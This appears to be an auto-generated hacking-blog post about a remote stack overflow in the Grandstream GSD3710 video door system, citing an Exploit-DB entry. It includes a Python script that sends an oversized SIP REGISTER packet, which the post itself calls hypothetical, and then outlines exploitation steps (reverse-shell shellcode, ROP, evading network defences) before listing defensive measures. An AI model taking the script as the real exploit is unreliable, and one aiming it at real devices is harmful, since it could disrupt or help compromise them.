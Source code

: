 ```yaml
---
title: "[remote] Grandstream GSD3710 1.0.11.13 - Stack Overflow"
date: 2025-06-05
categories: [Hacking Blog]
tags: [vulnerability, exploit, offensive-security, Grandstream]
layout: post
image:
  path: ./assets/images/post-cover/grandstream-GSD3710.png
---
```


## Summary

Grandstream GSD3710 1.0.11.13 - Stack Overflow

## Technical Analysis

# Technical Executive Summary

The vulnerability in question pertains to the Grandstream GSD3710, a network-based video door system, specifically version 1.0.11.13. The flaw is categorized as a stack overflow vulnerability, which typically occurs when data exceeding the buffer's storage capacity is written onto the stack, potentially allowing for arbitrary code execution. This vulnerability is classified as remote, indicating that an attacker could exploit it over a network without needing physical access to the device. The lack of a detailed summary suggests limited public documentation, necessitating further investigation to assess the potential impact and exploitability.

# Code Example (Proof of Concept)

Below is a Python script that demonstrates a basic proof-of-concept (PoC) for exploiting a stack overflow vulnerability. This script is illustrative and hypothetical, designed to showcase how an attacker might approach exploiting such a vulnerability in a networked device.

```python
import socket

# Target device IP and port
target_ip = "192.168.1.100"
target_port = 5060

# Crafting a payload with a simple pattern to identify overflow
payload = b"A" * 1024  # Adjust size based on specific overflow characteristics

# Constructing the message
message = (
    b"REGISTER sip:" + target_ip.encode() + b" SIP/2.0\r\n"
    b"Via: SIP/2.0/UDP " + target_ip.encode() + b":5060\r\n"
    b"Max-Forwards: 70\r\n"
    b"To: <sip:100@" + target_ip.encode() + b">\r\n"
    b"From: <sip:100@" + target_ip.encode() + b">;tag=123456\r\n"
    b"Call-ID: 1234567890@" + target_ip.encode() + b"\r\n"
    b"CSeq: 1 REGISTER\r\n"
    b"Contact: <sip:100@" + target_ip.encode() + b">\r\n"
    b"Content-Length: " + str(len(payload)).encode() + b"\r\n\r\n"
    + payload
)

# Sending the payload
with socket.socket(socket.AF_INET, socket.SOCK_DGRAM) as s:
    s.sendto(message, (target_ip, target_port))
    print("Payload sent to target device.")
```

**Note:** This PoC is for educational purposes only and should not be used in unauthorized environments.

# Offensive Security Insights

Exploitation of stack overflow vulnerabilities typically involves several steps:

1. **Fuzzing and Identification:** Use fuzzing techniques to identify the overflow point and determine the buffer size. Tools like AFL (American Fuzzy Lop) or custom scripts can be employed to send varying input sizes to the vulnerable service.

2. **Control of Execution Flow:** Once the overflow point is identified, the next step is to overwrite the return address on the stack. This requires precise calculation of the buffer offset.

3. **Payload Development:** Develop a payload that can be executed once the return address is overwritten. This might involve shellcode that opens a reverse shell or executes arbitrary commands.

4. **Bypassing Protections:** Modern systems employ various protections such as ASLR (Address Space Layout Randomization) and DEP (Data Execution Prevention). Techniques like ROP (Return-Oriented Programming) might be necessary to bypass these defenses.

5. **Remote Execution:** As this is a remote vulnerability, ensure that the exploit can be delivered over the network, potentially requiring encoding or fragmentation to evade network security devices.

# Defensive Measures

To mitigate the risk associated with this stack overflow vulnerability, consider the following defensive measures:

1. **Patch Management:** Ensure that all devices are updated with the latest firmware from the vendor. Regularly check for security advisories and patches.

2. **Network Segmentation:** Isolate vulnerable devices on separate network segments to limit exposure to potential attackers.

3. **Input Validation:** Implement strict input validation on all user inputs to prevent buffer overflow conditions.

4. **Network Security Monitoring:** Deploy intrusion detection and prevention systems (IDS/IPS) to monitor and block suspicious activities targeting vulnerable devices.

5. **Access Controls:** Restrict access to the device to trusted IP addresses and use strong authentication mechanisms to prevent unauthorized access.

6. **Security Configuration:** Disable unnecessary services and ports on the device to reduce the attack surface.

By implementing these measures, organizations can significantly reduce the risk of exploitation and enhance their overall security posture.

📎 [Original Source](https://www.exploit-db.com/exploits/52313)

---

_This article was written by sleep33._
